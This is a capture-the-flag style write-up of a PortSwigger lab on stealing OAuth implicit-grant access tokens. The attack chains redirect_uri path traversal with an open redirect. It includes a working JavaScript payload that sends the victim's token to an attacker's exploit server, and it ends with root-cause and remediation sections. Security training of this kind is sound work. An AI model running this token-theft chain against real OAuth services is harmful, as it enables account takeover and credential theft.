


## Metadata

- **Difficulty:** Practitioner
- **Category:** OAuth authentication
- **Lab URL:** [Lab: Stealing OAuth access tokens via an open redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)
- **Date Solved:** 8/10/2026
## Vulnerability Summary

The client application uses the OAuth 2.0 Implicit Grant flow (`response_type=token`) and is susceptible to account takeover via chained validation flaws. The OAuth authorization server enforces an insecure prefix match rather than an exact match on registered `redirect_uri` values and permits directory traversal (`../`). By traversing to an unvalidated open redirection endpoint on the client application (`/post/next?path=...`), an attacker can divert the authorization flow to an arbitrary domain. Because implicit grant access tokens are passed in the URL fragment (`#access_token=...`), user agents preserve the fragment across HTTP 302 redirections. An attacker can extract the administrator's OAuth access token via client-side JavaScript on the destination server and query the `/me` endpoint to compromise the account and exfiltrate sensitive data.
## Reconnaissance

- Navigating to the `/my-account` endpoint automatically takes us to the `/social-login` endpoint. Here, we can log in with the provided credentials `wiener:peter`.
- The server is using OAuth as the authentication mechanism, as there is a request sent to the server automatically after we are redirected:
```http
GET /auth?client_id=y4hkk0bdxuuhj0h8wwl19&redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback&response_type=token&nonce=781786272&scope=openid%20profile%20email 
...
```
We can see that the grant type is *implicit*, due to the `response_type=token` parameter in the request line.
- After some back and forth interactions between the client application and the OAuth authorization server, the client application sent a `GET /me` request to the OAuth server with the header `Authorization: Bearer [token]`(the token is granted by the server on a response to `GET /auth/[interaction-code]`, to which the server responded with the data of the user:
```json
{
  "sub":"wiener",
  "apikey":"tejJiptJJ0MvHvHIkyl3qn6mOVBkBwxz",
  "name":"Peter Wiener",
  "email":"wiener@hotdog.com",
  "email_verified":true
}
```
To gain access of the `administrator` account and their `apikey`, we need to find a way to exfiltrate their access token.
- Try modifying the `redirect_uri` parameter to `https://example.com`, we get a `400 Bad Request` that reads:
```html
<pre>
  <strong>
    error
  </strong>
  : redirect_uri_mismatch
</pre>
<pre>
  <strong>
    error_description
  </strong>
  : redirect_uri did not match any of the client&#39;s registered redirect_uris
</pre>
```
The server is presumably using a whitelist-based filter to validate the `redirect_uri` parameter. 
- Try injecting the root directory of the app (`/`) yields the same result.
- Supplying `redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback/uia` returns a `302 Found` that reads `Redirecting to /interaction/G9H7Cz8RR5YR0vzDDoDe8.`, which means that the server has accepted the authorization request. Following the redirection, we get a `400 Bad Request`:
```http
<pre>
  SessionNotFound: invalid_request<br>
   &nbsp; &nbsp;at Provider.getInteraction (/opt/node-v19.8.1-linux-x64/lib/node_modules/oidc-provider/lib/provider.js:50:11)<br>
   &nbsp; &nbsp;at Provider.interactionDetails (/opt/node-v19.8.1-linux-x64/lib/node_modules/oidc-provider/lib/provider.js:228:27)<br>
   &nbsp; &nbsp;at /home/carlos/oauth/index.js:160:34<br>
   &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/layer.js:95:5)<br>
   &nbsp; &nbsp;at next (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/route.js:137:13)<br>
   &nbsp; &nbsp;at setNoCache (/home/carlos/oauth/index.js:121:5)<br>
   &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/layer.js:95:5)<br>
   &nbsp; &nbsp;at next (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/route.js:137:13)<br>
   &nbsp; &nbsp;at Route.dispatch (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/route.js:112:3)<br>
   &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/layer.js:95:5)
</pre>
```
 So the server did try to resolve to the path we supplied in the `redirect_uri` parameter. The filter is just an exact string prefix check if it matches `https://[lab-id].web-security-academy.net/oauth-callback`.
 We therefore need to find an endpoint on the client application where it allows redirection, and supply our exploit server URL through that redirect path. Basically, an *open redirection* vulnerability. Since the fragment identifier (`#...` ) is retained across HTTP redirects (unless the redirect URL provides a new fragment), the `access_token` should survive the redirection.
 - Supplying `redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback/../uia` also yields a `302 Found` that signifies a successful authorization initialization attempt. This means that we can also inject path traversal sequences to get to the redirection endpoint.
 - Go to any random post. At the end of the post, there will be a "Next post" button that when clicked will take you to the next post (e.g. `postId=2` -> `postId=3`). This request is `GET /post/next?path=/post?postId=3`. Try supplementing `https://example.com` in the `path` parameter returns a `302 Found` with the header `Location: https://example.com`. The client-controllable `path` parameter is not validated. This is the open redirection endpoint we need.
 However, we still need to extract the `administrator`'s access token, as merely visiting the page won't do anything. This can be done through the `location.hash` method.
## Exploitation Steps

1. Navigate to the `/my-account` endpoint, where you will be automatically taken to the `/social-login` endpoint. Log in with the credentials `wiener:peter` and proceed with the login process. Send the first request of the process (`GET /auth?client_id=[id]&redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback&response_type=token&nonce=[value]&scope=openid%20profile%20email`) and the `GET /me` request that contains the access token to the **Repeater** tab.
2. Go to the exploit server, then paste the following script into the body:
```js
<script>
if (!location.hash) {
document.location = 'https://oauth-[oauth-server-id].oauth-server.net/auth?client_id=[client-id]&redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback/../post/next?path=https://exploit-[exploit-server-id].exploit-server.net/exploit&response_type=token&nonce=[nonce--value]&scope=openid%20profile%20email';
}
else {
document.location = '/?' + encodeURIComponent(window.location.hash.substr(1));
}
</script>
```
Then deliver the exploit to victim.
3. In the access log (`/log`), observe that the victim's access token has been exfiltrated in the URL:

4. Supply the access token in the `Authorization` header of the `GET /me` request. You should get a `200 OK` with `administrator`'s account details, including their `apikey`:

5. Submit the `apikey` value (`/submitSolution`). Lab is solved.
## Payload Used

```js
<script>
if (!location.hash) {
document.location = 'https://oauth-[oauth-server-id].oauth-server.net/auth?client_id=[client-id]&redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback/../post/next?path=https://exploit-[exploit-server-id].exploit-server.net/exploit&response_type=token&nonce=[nonce--value]&scope=openid%20profile%20email';
}
else {
document.location = '/?' + encodeURIComponent(window.location.hash.substr(1));
}
</script>
```
On the victim's initial visit when `access_token` is unavailable (`!location.hash`), it initiates the OAuth implicit grant flow using a directory traversal sequence (`/oauth-callback/../post/next`) to bypass the authorization server's loose prefix matching on `redirect_uri`, chaining directly into the client's open redirect parameter (`path=https://exploit-...`). Because user agents preserve URL fragment identifiers across HTTP 302 redirects when no replacement fragment is defined, the authorization server appends the victim's access token to the fragment (`#access_token=...`), and the browser carries it through the open redirect back to the exploit server. Upon landing back on the exploit page, `location.hash` is set, triggering the `else` branch; client-side JavaScript extracts the fragment and converts it into a query parameter (`/?...`), forcing the user agent to transmit the sensitive access token in an HTTP GET request that is captured in the exploit server's access logs.
## Root Cause

- The OAuth authorization server implements weak prefix matching instead of an exact-match whitelist on registered `redirect_uri` values, allowing path traversal sequences (`/../`).
- The client endpoint `/post/next` takes arbitrary user input in the `path` parameter and sets it directly into the HTTP `Location` response header without validating that the target is a relative local path. This is an *open redirection* vulnerability.
## Remediation

- **Strict Exact-Match `redirect_uri` Whitelisting:**
    - The OAuth authorization server must enforce strict, byte-for-byte exact matching between the requested `redirect_uri` and the pre-registered client callback URIs.
    - Disallow wildcard matches, subdomains, directory traversal, and partial path matching.
- **Fix the Open Redirect Vulnerability:**
    - Validate that the `path` parameter on `/post/next` represents a safe, relative path on the same origin.
    - Strip scheme declarations and ensure the path begins with a single forward slash (`/`) and does not start with protocol-relative notation (`//`)
    - Alternatively, replace dynamic URL parameters with an allowlist or mapped ID table (e.g., `next_post_id=3`).
- **Migrate to Authorization Code Flow with PKCE:**
    - Deprecate the Implicit Grant flow entirely in accordance with OAuth 2.1 specifications.
    - Implement the Authorization Code flow utilizing **Proof Key for Code Exchange (PKCE)**. In this flow, the authorization server returns an ephemeral `authorization_code` (not an access token) to the callback, and the client trades it on a back-channel POST request alongside a cryptographically validated `code_verifier`. Even if an open redirect leaks the authorization code, an attacker cannot exchange it without the PKCE secret.